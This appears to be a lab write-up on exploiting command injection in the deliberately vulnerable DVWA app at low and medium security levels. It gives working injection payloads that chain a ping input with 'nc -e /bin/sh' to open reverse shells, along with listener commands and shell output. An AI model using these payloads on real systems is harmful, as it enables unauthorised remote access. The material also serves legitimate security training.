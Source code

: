 ### Code Execution-DVWA-Security-Level-Low

* Allows an attacker to execute OS commands.

* The program ask the user to enter in a ip address, in which the server will ping.
* So i enter in my ip address

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.000 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.065 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.064 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2000ms
rtt min/avg/max/mdev = 0.000/0.043/0.065/0.030 ms
```

* The server takes my ipadress and executes the ping command with it.
* Now in Linux systems you can strings together commands by using ;
* Example

```
root@kali:/tmp/files# ls; pwd
file1  file2  file3
/tmp/files
```

* Here i just chained together the ls and pwd commands.
* We can do something similar by chaining to together and a ip address and nc shell.

* Steps

1. Create a netcat listener on any port.

```
root@kali:~# nc -vv -l -p 4444
listening on [any] 4444 ...
```

2. Now chain to together a ip address and netcat shell.

```
127.0.0.1; nc -e /bin/sh 10.0.2.15 4444
````

3. Now we should get a reverse netcat shell.

```
root@kali:~# nc -vv -l -p 4444
listening on [any] 4444 ...
10.0.2.5: inverse host lookup failed: Unknown host
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.5] 43666
lss
ls
help
index.php
source
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


---

### Code Execution-DVWA-Security-Level-Medium

* In this Security Level, there seems to be some blacklist filtering.
* The ; is filter meaning we can't use that command to get command injection.

* In Unix systems, there is a feature called pipe

```
|
```

* Pipe is essentially getting a commands output and feeding it into another command input.
* So we can use this method to get a code execution.

* Steps

1. Setup a netcat listener.

```
root@kali:~# nc -vv -l -p 4444
```

2. Pipe the ipaddress to netcat shell.

```
127.0.0.1 | nc -e /bin/sh 10.0.2.15 4444
```


3. Get the reverse shell and thats it.

```
root@kali:~# nc -vv -l -p 4444
listening on [any] 4444 ...
10.0.2.5: inverse host lookup failed: Unknown host
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.5] 35878
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
```

